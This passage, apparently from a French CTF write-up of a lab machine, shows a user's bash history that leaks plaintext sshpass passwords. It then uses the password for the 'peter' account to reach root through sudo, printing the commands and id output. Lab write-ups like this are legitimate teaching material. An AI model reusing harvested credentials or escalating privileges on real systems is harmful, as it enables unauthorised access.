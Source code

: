 Celui de `JKanode` est le plus fournit :

```bash
id
whoami
ls -lah
pwd
ps aux
sshpass -p thisimypassword ssh JKanode@localhost
apt-get install sshpass
sshpass -p JZQuyIN5 peter@localhost
ps -ef
top
kill -9 3747
exit
```

Le mot de passe est fonctionnel pour le compte `peter`. Ce dernier étant membre du groupe `sudo` il permet de passer ensuite à `root` :

```console
red% id
uid=1000(peter) gid=1000(peter) groups=1000(peter),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
red% sudo su

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for peter: 
➜  SHayslett id
uid=0(root) gid=0(root) groups=0(root)
```
